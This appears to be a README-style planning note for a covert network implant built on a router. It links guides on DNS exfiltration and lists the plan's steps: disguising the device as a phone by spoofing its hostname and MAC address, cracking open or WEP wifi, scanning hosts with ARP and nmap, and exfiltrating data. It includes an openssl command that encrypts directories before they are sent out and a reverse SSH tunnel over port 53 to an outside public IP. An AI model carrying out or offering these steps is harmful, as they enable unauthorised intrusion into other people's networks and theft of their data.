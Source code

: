 kolache
=======
applications needed on router for dns exfil:
dig
xxd


https://hackucf.org/blog/hack-all-the-things-exfiltrating-data-via-dns-requests/


http://jontai.me/blog/2011/11/monitoring-dns-queries-with-tcpdump/


1.) External drive should be encrypted. 

http://oneitguy.com/blog/encrypted-remote-backup-openwrt

https://dev.openwrt.org/ticket/10787

http://gui-at.blogspot.com/2010/02/disk-encryption-in-openwrt.html

http://sjoosten.nl/2013/06/luks-usb-stick.html

2.) Once the SD card is mounted. Run a script that changes the device host name and mac address to something like an apple iphone/ipad or samsung android device. 

3.) Once mounted, ethernet in and set up the device for monitoring in X minutes

4.) Scans. Finds unencrypted wifi or WEP and cracks it.
  
5.) Once on the target network, does an arp scan and then nmap of hosts.

6.) Finds way to internet

7.) Exfil data. All data should be encrypted with openssl before exfiltration.

> tar -P -zcf - $dirname | openssl aes-128-cbc -out $dirname.tar.gz -k 1234

(tar/gzip everything in a given directory. AES-128 encrpt file. set the password to the file as "1234")


8.) Opens reverse ssh into network. 
> ssh -R 53:localhost:22 sourceuser@<public ip>
> tunnel through port 53 (because it it is normally unblocked)

9.) Win...
